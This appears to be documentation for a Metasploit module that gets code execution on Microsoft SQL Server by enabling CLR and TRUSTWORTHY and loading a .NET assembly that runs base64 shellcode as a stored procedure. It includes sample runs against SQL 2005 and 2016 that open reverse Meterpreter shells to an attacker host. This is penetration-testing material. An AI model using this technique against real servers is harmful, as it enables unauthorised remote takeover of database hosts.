 ## Introduction

This module is based on the work that was done by @leechristensen and @sekirkity as documented [here](http://sekirkity.com/command-execution-in-sql-server-via-fileless-clr-based-custom-stored-procedure/).

## Prerequisites

The module requires SQL credentials for a user with sufficient privileges to:

* Enable CLR support (if not already enabled).
* Enabled `TRUSTWORTHY` (if not already enabled).
* Add an assembly to the server.
* Create a new stored procedure.

The module does all of the above, as required. It uploads a .NET Assembly (pre-built, and stored in the `data` folder) which is selected based on the version of the DB in question. This is a shim that exposes a function that allows for a base64-encoded payload to be executed as native shellcode. This function is exposed as a stored proc, which can be called directly through an SQL query with the base64 encoded shellcode.

This module was tested on SQL 2005, 2012 and 2016 (all x64 versions). I haven't tested on x86 yet. there is code in the module that makes sure that the target architecture matches the payload that was chosen.

This code also includes command-line builds for the assembly that is used to provide the code execution function, and can be built in the same way that all the other exploits are built (from a Visual Studio command line).

## Sample Runs:

MS SQL 2005:

```
msf exploit(mssql_clr_payload) > exploit

[*] [2017.02.10-12:56:15] Started reverse TCP handler on 172.16.255.1:4444
[!] [2017.02.10-12:56:15] 172.16.255.130:1433 - Setting EXITFUNC to 'thread' so we don't kill SQL Server
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Database does not have CLR support enabled, enabling ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Using version v3.5 of the Payload Assembly
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Adding custom payload assembly ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Exposing payload execution stored procedure ...
[*] [2017.02.10-12:56:15] 172.16.255.130:1433 - Executing the payload ...
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Removing stored procedure ...
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Removing assembly ...
[*] [2017.02.10-12:56:16] Sending stage (1189423 bytes) to 172.16.255.130
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Restoring CLR setting ...
[*] [2017.02.10-12:56:16] 172.16.255.130:1433 - Restoring Trustworthy setting ...
[*] Meterpreter session 10 opened (172.16.255.1:4444 -> 172.16.255.130:49168) at 2017-02-10 12:56:18 +1000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-8CT6HVI5D6J
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

MS SQL 2016

```
msf exploit(mssql_clr_payload) > exploit

[*] [2017.02.10-12:55:58] Started reverse TCP handler on 172.16.255.1:4444
[!] [2017.02.10-12:55:58] 172.16.255.129:1433 - Setting EXITFUNC to 'thread' so we don't kill SQL Server
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Database does not have TRUSTWORTHY setting on, enabling ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Database does not have CLR support enabled, enabling ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Using version v4.0 of the Payload Assembly
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Adding custom payload assembly ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Exposing payload execution stored procedure ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Executing the payload ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Removing stored procedure ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Removing assembly ...
[*] [2017.02.10-12:55:58] Sending stage (1189423 bytes) to 172.16.255.129
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Restoring CLR setting ...
[*] [2017.02.10-12:55:58] 172.16.255.129:1433 - Restoring Trustworthy setting ...
[*] Meterpreter session 9 opened (172.16.255.1:4444 -> 172.16.255.129:49732) at 2017-02-10 12:56:00 +1000

meterpreter > getuid
Server username: NT Service\MSSQLSERVER
meterpreter > sysinfo
Computer        : WIN-7QEE7C4D0GF
OS              : Windows 2016 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
